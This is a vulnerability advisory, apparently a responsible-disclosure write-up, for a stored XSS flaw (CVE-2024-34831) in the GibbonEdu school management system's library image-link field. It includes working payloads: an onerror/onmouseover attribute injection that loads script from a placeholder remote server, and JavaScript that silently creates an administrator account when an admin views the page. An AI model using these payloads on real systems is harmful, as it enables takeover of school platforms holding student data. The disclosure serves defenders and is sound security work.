



# CVE-2024-34831 XSS Vulnerability in GibbonEdu Core v26.0.00 leading to Privilege Escalation

Gibbon is an awesome open source fully fledged school management system. A lot of effort is going on in revamping the rather old code base.

Author: Christian Bajada

## **1. Vulnerability**

The `imageLink` parameter when editing/submitting new books (/modules/Library/library_manage_catalog_editProcess.php) is vulnerable to XSS. Users with the Manage Catalog permission can exploit this vulnerability causing arbitrary scripts to execute for users with higher level permissions and elevate privileges.

## **2. PoC Simple Scenario**

1. Navigate to **Learn > Library > Manage Catalog**
2. Edit one of the book items. 
3. The Image Link field is not properly sanitised and allows us to run arbitrary Javascript. Modify the Image Link to `[http://x](http://x/)" onerror='alert(1)'`  and the alert code will execute on page load when loading the library page:






## **3. PoC for Privilege Escalation**

This section explains how this vulnerability can be used for something more dangerous other than a simple alert (1) popup. We are going to trick a logged in administrator to seamlessly create another admin, accessible by the attacker.

The `imageLink` field is too small to allow us to invoke any meaningful functionality on the Gibbon Platform. What we can do is simply host the Javascript elsewhere and have it downloaded and executed by the browser. Lack of CSP makes this possible.

1. The malicious user crafts the payload to create an administrator user as follows and places it in a publicly accessible location e.g. https://<yourserver.com>/payload.js. The below code, if executed by an administrator will create an administrative user called hexthecat. The code invokes the function on Gibbon Core to create a new user together with all required parameters. 

```javascript
fetch('./modules/User%20Admin/user_manage_addProcess.php', { method: 'POST', body: new URLSearchParams({ title: 'Mr.', surname: 'Cat', firstName: 'Hex', preferredName: 'Hex', 'officialName' : 'Hex', gender: 'M', dob: '01/04/2024', gibbonRoleIDPrimary: '001', username: 'hexthecat', passwordNew: 'Hexed001', passwordConfirm: 'Hexed001', status: 'full', canLogin: 'Y', passwordForceReset: 'Y' }) });
```

2. The malicious Mange Catalogue user enters the following imageLink for a book (keeping the original and adding the script loading part): 

http://books.google.com/books?id=SluXuAAACAAJ&printsec=frontcover&img=1&zoom=1&source=gbs_api" onmouseover="$.getScript('https://<yourserver.com>/payload.js')"

3. Administrator browses the library.

You need to either wait until administrator navigates to the library catalog or else convince them via IM, Email or any other channel.

The act of hovering the mouse (onmouseover) on the picture of the book will cause the payload to be fetched from the location (in this case <yourserver.com>) and execute. This results in an administrator user being created which the malicious user can now access. The 'onerror' listener can also be used to have the payload execute immediately rather than having to hover over the picture.

You can check the created user in the menu **ADMIN > User Admin** 




## **4. Responsible Disclosure**

Published as per responsible disclosure guidelines https://github.com/GibbonEdu/core/security.

- 06 May 2024: Vulnerability reported and acknowledged by GibbonEdu maintainer.
- 15 May 2024: CVE number assigned by MITRE. 
- 10 September 2024: Advisory published.
